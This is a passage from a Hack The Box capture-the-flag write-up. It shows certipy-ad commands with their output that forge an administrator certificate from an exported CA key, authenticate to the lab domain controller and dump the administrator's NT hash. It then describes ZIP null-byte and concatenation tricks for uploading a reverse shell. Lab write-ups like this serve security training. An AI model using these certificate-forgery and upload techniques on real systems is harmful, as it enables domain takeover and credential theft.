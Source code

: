 Transfer this to our machine and let's forge an admin certificate using the `CA`'s certificate
```bash
certipy-ad forge -ca-pfx 'ca_exported.pfx' -upn ADMINISTRATOR@CERTIFICATE.HTB
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```

Let's now attempt to authenticate via `certipy-ad auth`
```bash
certipy-ad auth -pfx administrator_forged.pfx -domain certificate.htb -dc-ip 10.129.238.176                                
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ADMINISTRATOR@CERTIFICATE.HTB'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

Just like that, we have Root!

# Beyond Root
I was really interested to know more about that `nullbyte` exploit. Looking around we can find [0xdf](https://0xdf.gitlab.io/2024/01/13/htb-zipping.html#beyond-root---unintended-footholds) did a similar thing on the `Zipping` box.

I tried to do the manual method he showed where he used a `hex editor` to edit the bytes. Editing only the second instance of the `filename` generated errors when uploaded. However, if we edited both instances, we would be able to submit the file and not have to use a sacrificial zipfile as we did in python.

## Alternative method: Zip Concatenation
One alternative found for the ZIP upload vulnerability is through concatenating two different zip files, one with a legitimate file, and another with the malicious file.

More information can be found here:

[Evasive Zip Concatenation: Trojan Targets Windows Users](https://perception-point.io/blog/evasive-concatenated-zip-trojan-targets-windows-users/)

I've constructed a `pdf` and `php` shell

> I was unable to get a web shell to work, I will need to investigate it further, however directly passing in our reverse shell does work.
{:.info}
